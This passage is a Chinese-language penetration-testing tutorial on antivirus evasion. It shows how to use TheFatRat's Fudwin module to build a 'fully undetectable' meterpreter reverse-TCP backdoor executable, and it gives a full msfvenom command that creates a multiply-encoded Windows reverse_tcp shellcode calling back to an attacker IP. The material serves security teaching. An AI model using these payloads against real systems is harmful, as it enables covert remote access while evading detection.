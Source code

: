 1.  更改文件权限并使用以下命令运行设置脚本：

```
chmod +x setup.sh && ./setup.sh.
```

在这个命令中，我们正在改变`setup.sh`文件的权限，以便我们可以运行它。

1.  在安装过程中，将安装所有依赖项。

安装完成后，您可以使用`fatrat`命令运行 TheFatRat。

在启动过程中，TheFatRat 会提醒不要将生成的有效负载上传到 VirusTotal。我们将在本章的*测试规避技术*部分讨论这个问题。

让我们使用`TheFatRat`创建一个有效负载：

1.  从终端窗口，使用`fatrat`命令启动`TheFatRat`。

1.  菜单加载后，您会注意到有一些可以使用的选项：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/lrn-pentest/img/afe68a7d-c555-4d9f-ad72-5cce6fa78fea.png)

图 11：TheFatRat 主菜单

1.  选择选项`2`以使用`Fudwin`创建`Fud`。

`Fud`是**Fully Undetectable Payload**的缩写。

1.  一旦`Fudwin`模块加载，我们有两个选项。我们将选择选项`2` - `慢但强大`。这个工具编译了一个带有 meterpreter 反向 TCP 有效负载的 C 程序：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/lrn-pentest/img/136c4a48-c207-442e-a382-50b22740a19c.png)

图 12：使用 Fudwin 模块进行工具选择

1.  选择选项`2`后，您需要定义`LHOST`和`LPORT`选项。接下来，您需要选择目标操作系统的架构。可以是`x86`或`x64`。

1.  一旦选项被定义，工具将处理剩下的事情。它将把恶意有效负载编译成一个可执行文件，并存储在`TheFatRat`根文件夹中的`output`目录中。

一旦在远程系统上运行该文件，它将创建一个反向`tcp`后门到攻击机器。在*测试规避技术*部分，我们将比较这个有效负载的检测率和我们创建的其他有效负载。

# 自定义编译

自定义编译可以帮助大大减少检测能力。您可以利用互联网上可用的自定义 shellcode，并根据需要进行调整，以执行您想要的功能。

在本节中，我们将以基本水平介绍自定义 shellcode 的创建。Shellcode 的创建可能变得复杂，随着您在渗透测试职业中的进步，您将建立起编写复杂 shellcode 的技能。我们将使用 C 编程语言来介绍 shellcode 的创建。

诸如 Exploit-DB 之类的网站托管了社区发布的许多 shellcode。可以通过以下 URL 访问：[`www.exploit-db.com/shellcodes`](https://www.exploit-db.com/shellcodes)。

让我们使用 C 创建一个自定义 shellcode。

首先，我们将使用 MSFvenom 创建一个 shellcode 文件。让我们使用之前创建的相同 shellcode，但是这次我们将其输出到一个`.C`文件中：

1.  从终端窗口，使用`mkdir msfv-shellcode`命令创建一个新目录。

1.  使用`cd msfv-shellcode`命令导航到目录。

1.  现在，使用以下命令创建有效载荷：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.34.153 LPORT=8080 -f raw -e x86/shikata_ga_nai -i 15  | \
msfvenom -a x86 --platform windows -e x86/countdown -i 9  -f raw | \
msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 9 -f c -o MSFV-shellcode.c
```

